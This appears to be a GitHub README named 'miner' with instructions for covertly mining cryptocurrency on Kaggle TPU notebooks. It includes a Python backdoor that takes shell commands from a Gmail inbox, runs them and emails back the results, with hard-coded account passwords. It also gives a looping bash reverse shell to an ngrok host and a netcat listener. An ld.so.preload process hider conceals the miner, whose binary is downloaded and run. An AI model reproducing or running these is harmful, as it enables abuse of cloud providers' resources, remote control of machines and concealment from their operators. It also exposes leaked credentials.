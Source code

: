 # miner
1. apt install python3.9-venv
2. python3 -m venv v
3. source v/bin/activate
TPU 96 Core https://www.kaggle.com/
register with gmail
verify phone number format : 081245754875
run code:
====================================>

import imaplib
import email
import smtplib
import subprocess
import time

# email account details
imap_username_from_client = "brunobrail335@gmail.com"
imap_password = "dimgwmkmtwsiaaiw"
smtp_username = "duejohn825@gmail.com"
smtp_password = "vekktzscbyhfvadv"
imap_server="imap.gmail.com"

while True:
    try:

        imap = imaplib.IMAP4_SSL(imap_server)
        imap.login(imap_username_from_client, imap_password)
        imap.select("inbox")
        status, messages = imap.search(None, "UNSEEN")
        if messages[0]:
            latest_message = messages[0].split()[-1]
            _, msg = imap.fetch(latest_message, "(RFC822)")
            email_message = email.message_from_bytes(msg[0][1])
            for part in email_message.walk():
                if part.get_content_type() == "text/plain":
                    body = part.get_payload(decode=True).decode()
                    result_byte = (
                        subprocess.run(body, shell=True, stdout=subprocess.PIPE,
                                       stderr=subprocess.PIPE).stdout).decode(
                        'utf-8')
                    break
            msg = email.message.EmailMessage()
            msg.set_content(result_byte)
            msg['Subject'] = 'Result of command'
            msg['From'] = imap_username_from_client
            msg['To'] = smtp_username

            # send email with result
            with smtplib.SMTP('smtp.gmail.com', 587) as smtp:
                smtp.starttls()
                smtp.login(smtp_username, smtp_password)
                smtp.send_message(msg)
        imap.close()
        imap.logout()
    except Exception as e:
        print(f"Error: {e}")

    # wait for 10 seconds before checking for new messages again
    time.sleep(2)
================================>
acces clinet  ==============> wget https://raw.githubusercontent.com/bulboni/minware/main/svr.py
create reverse shell ========> while true; do bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/10187 0>&1'; sleep 10; done
call net cat ================> nc -lnvp 4444
undo dyrectory kagle ==============> cd /kaggle
hide miner ========================> git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
call miner =========================> wget https://raw.githubusercontent.com/bulboni/minware/main/config.json && wget https://raw.githubusercontent.com/bulboni/minware/main/durex && chmod +x durex && ./durex
